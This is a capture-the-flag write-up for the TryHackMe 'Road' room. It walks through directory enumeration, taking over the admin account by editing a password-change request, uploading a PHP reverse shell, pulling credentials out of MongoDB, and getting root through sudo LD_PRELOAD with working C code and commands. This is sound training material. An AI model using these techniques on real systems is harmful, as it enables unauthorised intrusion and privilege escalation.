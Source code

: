 # 92 - Road (email hijacking, MongoDB, LD\_PRELOAD exploitation)

Room Link --> [https://tryhackme.com/room/road](https://tryhackme.com/room/road)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
SSH port 22
Port 80 HTTP
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://road.thm/ -t30 -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt  -xjs,txt,php

index.html
phpMyAdmin
v2
```
{% endcode %}

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://road.thm/v2/ -t30 -w /usr/share/dirb/wordlists/common.txt  -xjs,txt,php

/v2/admin
/v2/index.php
/v2/lostpassword.php
/v2/profile.php
```
{% endcode %}

We have to register an account.

### Initial Access

The profile section displays the user profile and also an admin email which is probably the admin's username.&#x20;

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

We can think about hijacking the email, we have a section to change the password of the registered user having the previous password, we can try to enter my username and credentials and capture the request using Burp Suite and change my username to admin email.

This way we can change the password of the Administrator user and we will have access to the file upload part.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Intercept with burpsuite and change the username to admin username.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login in as admin:

<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can upload a php reverse shell on the server.

After uploading, looking for where it was uploaded to, inspecting the source code and searching for `/v2` we see a dir, i checked it out but:

<figure><img src=".gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Navigating to --> [http://road.thm/v2/profileimages/rev.php](http://road.thm/v2/profileimages/rev.php)

And the rev shell was triggered.

<figure><img src=".gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to webdeveloper

We enumerate the box using `ss -tl` .

```bash
www-data@sky:/home/webdeveloper$ ss -tl
State   Recv-Q  Send-Q     Local Address:Port       Peer Address:Port  Process  
LISTEN  0       4096           127.0.0.1:27017           0.0.0.0:*              
LISTEN  0       151            127.0.0.1:mysql           0.0.0.0:*              
LISTEN  0       4096       127.0.0.53%lo:domain          0.0.0.0:*              
LISTEN  0       128              0.0.0.0:ssh             0.0.0.0:*              
LISTEN  0       70             127.0.0.1:33060           0.0.0.0:*              
LISTEN  0       511            127.0.0.1:9000            0.0.0.0:*              
LISTEN  0       511                    *:http                  *:*              
LISTEN  0       128                 [::]:ssh                [::]:*       
```

MongoDB is running on 27017

Search google for MongoDB exploit, and found the [hacktricks blog](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb)

```bash
www-data@sky:/home/webdeveloper$ mongo 127.0.0.1:27017
```

And we are in the DB interface.

```
> show dbs;
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use admin
switched to db admin
> show collections
system.version
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
> 
```

We got credentials for "webdev..."

`webdeveloper : BahamasChapp123!@#`&#x20;

So we ssh into the account.

### Priv Esc to root

`sudo -l`&#x20;

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```

#### LD\_PRELOAD exploitation

`env_keep+=LD_PRELOAD`. I searched for what LD\_PRELOAD is. It allowed passing shared libraries that would be loaded when the program start.

I found a [great post on using LD\_PRELOAD to escalate privileges](https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/). I used the provided code to get root

We will create a shell in C:

{% code title="shell.c" %}
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
{% endcode %}

Now compile it with gcc

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

```bash
webdeveloper@sky:~$ cd /tmp
webdeveloper@sky:/tmp$ vim shell.c
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 |  setgid(0);
      |  ^~~~~~
shell.c:7:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
# whoami
root
```

Done



